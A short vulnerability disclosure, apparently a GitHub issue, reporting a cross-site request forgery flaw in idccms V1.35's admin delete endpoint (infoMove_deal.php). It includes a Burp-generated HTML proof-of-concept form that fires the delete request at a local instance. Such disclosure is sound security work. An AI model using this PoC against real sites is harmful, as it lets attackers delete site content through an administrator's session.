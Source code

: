 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/infoMove_deal.php?mudi=del&dataType=logo&dataTypeCN=%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5&theme=%E7%BD%91%E9%92%9BCMS&dataID=4

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/infoMove_deal.php?mudi=del&dataType=logo&dataTypeCN=%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5&theme=%E7%BD%91%E9%92%9BCMS&dataID=4" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
